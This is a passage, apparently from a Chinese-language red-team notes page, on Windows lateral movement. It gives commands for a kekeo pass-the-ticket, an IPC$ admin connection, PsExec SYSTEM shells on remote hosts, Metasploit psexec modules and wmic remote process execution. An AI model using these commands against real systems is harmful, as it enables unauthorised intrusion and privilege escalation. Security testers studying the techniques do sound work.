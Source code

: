 |     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>kekeo "kerberos::ptt xxx.kirbi"<br>``` |

## [](#psexec-%E7%9A%84%E4%BD%BF%E7%94%A8)PsExec 的使用

### [](#pstools-%E5%B7%A5%E5%85%B7%E4%B8%AD%E7%9A%84-psexec)PsTools 工具中的 PsExec

#### [](#%E5%BB%BA%E7%AB%8B-ipc-%E8%BF%9E%E6%8E%A5-1)建立 IPC 连接

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>net use \\IP\ipc$ "password" /u:administrator<br>``` |

#### [](#%E8%8E%B7%E5%8F%96-system-%E6%9D%83%E9%99%90%E7%9A%84-%E4%BA%A4%E4%BA%92%E5%BC%8Fshell)获取 System 权限的 交互式 shell

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```cmd<br>PsExec.exe -accepteula \\IP -s cmd.exe<br>或<br>PsExec.exe -accepteula \\IP -s cmd.exe /c ipconfig<br>``` |

如果不使用 -s 命令，则创建一个 Administrator 权限的 shell

如果没有建立 IPC 连接：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>PsExec.exe -accepteula \\IP -u administrator -p password -s cmd.exe<br>``` |

### [](#metasploit-%E4%B8%AD%E7%9A%84-psexec-%E6%A8%A1%E5%9D%97)Metasploit 中的 psexec 模块

-   exploit/windows/smb/psexec
-   exploit/windows/smb/psexec\_psh（powershell 版本）

## [](#wmi-%E7%9A%84%E4%BD%BF%E7%94%A8)WMI 的使用

### [](#%E5%9F%BA%E6%9C%AC%E5%91%BD%E4%BB%A4)基本命令

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>wmic /node:IP /user:administrator /password:passed process call create "cmd.exe /c ipconfig > ip.txt"<br>``` |

建立 IPC 连接后，使用 type 命令读取结果：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>type \\IP\C$\ip.txt<br>``` |
